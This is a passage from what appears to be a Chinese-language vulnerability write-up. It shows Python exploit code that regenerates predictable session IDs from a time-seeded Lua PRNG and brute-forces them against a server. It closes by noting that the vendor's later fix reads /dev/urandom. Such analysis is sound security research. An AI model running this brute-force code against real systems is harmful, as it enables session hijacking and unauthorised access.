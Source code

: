 ```python
    with open("SIDs", "r", encoding="utf-8") as f:
        sids = f.read().splitlines()
    print("[*] Bruteforce attack has started ... it may take very long time ...")
    for sid in range(0, len(sids), 2048):
        print("[*] The number of SIDs have been bruteforced so far: \033[1m%d\033[0m" %(2048*counter), end="\r")
        counter += 1
        results = e.map(makeRequest, sids[sid:sid+2048])
        for response in list(results):
            if response:
                e.shutdown(wait=True, cancel_futures=True)
                return response

def generateSIDs(boot_time):
    with open("SIDs", "a") as SIDs:
        for s in range(max_backward_seconds):
            lua53_math_randomseed(boot_time)
            for i in range(10):
                generate_id(32)
                sid = generate_id(32)
                SIDs.write(sid+"\n")
            boot_time -= 1
    print("[*] The bruteforce list has been constructed!")

call = CDLL("./myrand-lua53.so")
generateSIDs(int(time.time()))
bruteForce()
```

这之后官方又进行了一次修复，可以看到是使用了 `io.open('/dev/urandom')`，这次随机性应该是足够了。

![](/assets/images/2024-11-04/34.png) 
